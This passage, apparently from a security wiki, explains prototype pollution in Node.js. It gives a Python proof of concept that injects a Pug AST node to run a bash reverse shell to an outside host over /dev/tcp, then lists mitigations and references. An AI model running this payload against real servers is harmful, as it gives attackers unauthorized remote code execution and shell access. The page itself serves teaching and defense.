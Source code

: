 ### Pug

More info in [https://blog.p6.is/AST-Injection/#Pug](https://blog.p6.is/AST-Injection/#Pug)

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```

## Client-side prototype pollution to XSS

{% content-ref url="client-side-prototype-pollution.md" %}
[client-side-prototype-pollution.md](client-side-prototype-pollution.md)
{% endcontent-ref %}

## What can I do to prevent?

* Freeze properties with Object.freeze (Object.prototype)
* Perform validation on the JSON inputs in accordance with the application’s schema
* Avoid using recursive merge functions in an unsafe manner
* Use objects without prototype properties, such as `Object.create(null)`, to avoid affecting the prototype chain
* Use `Map`instead of `Object`
* Regularly update new patches for libraries

## Reference

* [https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
* [https://dev.to/caffiendkitten/prototype-inheritance-pollution-2o5l](https://dev.to/caffiendkitten/prototype-inheritance-pollution-2o5l)
* [https://itnext.io/prototype-pollution-attack-on-nodejs-applications-94a8582373e7](https://itnext.io/prototype-pollution-attack-on-nodejs-applications-94a8582373e7)
